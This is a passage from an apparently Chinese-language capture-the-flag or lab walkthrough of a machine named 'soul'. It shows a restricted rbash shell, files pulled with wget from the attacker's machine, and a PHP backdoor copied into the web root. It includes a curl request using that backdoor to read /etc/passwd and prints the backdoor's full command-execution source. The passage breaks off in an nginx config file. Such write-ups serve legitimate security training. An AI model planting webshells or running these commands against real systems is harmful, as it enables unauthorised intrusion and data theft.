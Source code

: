 ```shell
daniel@soul:~$ echo $0
-rbash
```

### web 目录可控

```shell
┌─[randark@parrot]─[/usr/share/webshells/php]
└──╼ $ python-server 80
......
drwxr-xr-x 1 root root   64  1 月 22 日 03:13 findsocket
-rw-r--r-- 1 root root 2.8K 2021 年 11 月 21 日 php-backdoor.php
-rwxr-xr-x 1 root root 5.4K 2021 年 11 月 21 日 php-reverse-shell.php
-rw-r--r-- 1 root root  14K 2021 年 11 月 21 日 qsd-php-backdoor.php
-rw-r--r-- 1 root root  328 2021 年 11 月 21 日 simple-backdoor.php
......
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.56.115 - - [18/Feb/2024 23:30:13] "GET /simple-backdoor.php HTTP/1.1" 200 -

daniel@soul:~$ wget 192.168.56.102/simple-backdoor.php
daniel@soul:~$ mv simple-backdoor.php /var/www/html
```

文件成功上传，但是并没有被解析

```shell
┌─[randark@parrot]─[/usr/share/webshells/php]
└──╼ $ curl 192.168.56.115/simple-backdoor.php?cmd=cat+/etc/passwd
<!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>

Usage: http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd

<!--    http://michaeldaw.org   2006    -->
```

## 分析 nginx 配置

查看 nginx 的配置文件

```conf
user www-data;
worker_processes auto;
pid /run/nginx.pid;
include /etc/nginx/modules-enabled/*.conf;

events {
        worker_connections 768;
        # multi_accept on;
}

http {
        sendfile on;
        tcp_nopush on;
```